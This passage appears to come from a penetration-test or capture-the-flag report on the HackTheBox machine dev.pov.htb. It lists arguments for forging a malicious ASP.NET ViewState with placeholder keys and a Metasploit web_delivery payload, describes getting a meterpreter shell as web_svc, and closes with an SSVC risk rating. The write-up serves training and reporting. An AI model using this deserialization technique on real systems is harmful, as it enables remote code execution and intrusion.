 \documentclass[a4paper]{article}
\def\tightlist{}
\begin{document}
\begin{itemize}
\tightlist
\item
  \textbf{-p = ViewState}
\item
  \textbf{-g TextFormattingRunProperties}
\item
  \textbf{--decryptionalg=``AES''}
\item
  \textbf{--decryptionkey=\{AES\_KEY\}}
\item
  \textbf{--validationalg=``SHA1''}
\item
  \textbf{--validationkey=\{SHA1\_KEY\}}
\item
  \textbf{--path=/portfolio/contact.aspx} (can be whatever ASPX page)
\item
  \textbf{-c \{payload for web\_delivery metasploit module\}}
\end{itemize}

Finally we have crafted our own ViewState object and is ready to be injected \{\ref{2:POV:issue.md:issue25.png}\}, now we can make a new request and change the original ViewState
with the crafted one, after that a meterpeter shell as \textbf{web\_svc} user will popout \{\ref{2:POV:issue.md:issue26.png}\}. Foothold has been achieved!

\textbf{SSVC Decision}

\begin{itemize}
\tightlist
\item
  \textbf{Exploitation = PoC}, because \emph{``the vulnerability has a well known method of exploitation''}
\item
  \textbf{Automable = Yes}, we automatically achieved RCE with the successful exploitation of the vulnerability
\item
  \textbf{Technical Impact = Partial}, we are spawning as low privileges user so our potential damage is reduced and need additional steps to go further
\item
  \textbf{Mission \& Well-Being = Medium}, the vulnerable component is a simple workstation with no esential component for the client mission
\item
  \textbf{Decision = Track}, the sum of the previous choices
\end{itemize}

    
    \subsubsection{Affected Assets}

    \begin{itemize}
\tightlist
\item
  dev.pov.htb (port 80)
\end{itemize}
\end{document}
